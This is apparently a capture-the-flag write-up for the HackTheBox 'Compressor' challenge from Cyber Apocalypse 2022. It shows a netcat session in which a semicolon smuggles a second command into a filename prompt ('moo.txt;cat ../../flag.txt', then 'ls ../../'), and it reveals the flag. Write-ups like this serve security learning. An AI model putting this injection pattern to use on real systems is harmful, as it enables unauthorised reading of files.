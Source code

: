 ```yaml
---
title: HTB-CA22-misc-compressor
date: "2022-05-19"
description: misc challenge during Cyber Apocalypse 2022
tldr: bash, command injection
tags: [htb,hackthebox,ca22,cyber-apocalypse22,misc,command-injection,bash]
---
```


## Backstory
Each challenge had a story tied to it, for this challenge it was:   

Ramona's obsession with modifications and the addition of artifacts to her body has slowed her down and made her fail and almost get killed in many missions.  
For this reason, she decided to hack a tiny robot under Golden Fang's ownership called "Compressor", which can reduce and increase the volume of any object to minimize/maximize it according to the needs of the mission.  
With this item, she will be able to carry any spare part she needs without adding extra weight to her back, making her fast. Can you help her take it and hack it?

  
Connect to the docker container:   
```shell
$ nc 138.68.183.104 30830  
  
[*] Directory to work in: aa0pcXBBf0oCdU03wGyse2tpkw0DOnWJ  
  
Component List:  
  
+===============+  
| |  
| 1. Head 🤖 |  
| 2. Torso 🦴 |  
| 3. Hands 💪 |  
| 4. Legs 🦵 |  
| |  
+===============+  
  
[*] Choose component: 2  
  
[*] Sub-directory to work in: aa0pcXBBf0oCdU03wGyse2tpkw0DOnWJ/Torso  
  
  
Actions:  
  
1. Create artifact  
2. List directory (pwd; ls -la)  
3. Read artifact (cat ./<name>)  
4. Compress artifact (zip <name>.zip <name> <options>)  
5. Change directory (cd <dirname>)  
6. Clean directory (rm -rf ./*)  
7. Exit  
  
[*] Choose action: 3  
  
  
Insert name you want to read: moo.txt;cat ../../flag.txt  
cat: can't open './moo.txt': No such file or directory  
HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}  
```  
  
using the same “bypass” we could list the contents of the other folders:  

```shell
[*] Choose action: 3  
  
  
Insert name you want to read: moo.txt;ls ../../  
cat: can't open './moo.txt': No such file or directory  
9mHpXSlddjlAy00Zzd2SxdV6hzrXrQPC  
LE4HMvwMattVKdxsCY1llpYllDw89HhT  
MkKWwKg7dVr1YJaLslhoVUKlk4ST2SgS  
aX8xStlHbzrr8tIuEs41V6szNF55yoln  
aa0pcXBBf0oCdU03wGyse2tpkw0DOnWJ  
artifacts.py  
clear.py  
flag.txt  
iXrOMWiQgUsKq2ZQxlMOxq1hxkeRqBTi  
oqtoWjbz3pDT0k7IrDOMUCCIVhQgCna1  
zrNFtkZa90Sfw2FdN8FunoM1qjrBkoT0
```

Flag: `HTB{GTFO_4nd_m4k3_th3_b35t_4rt1f4ct5}`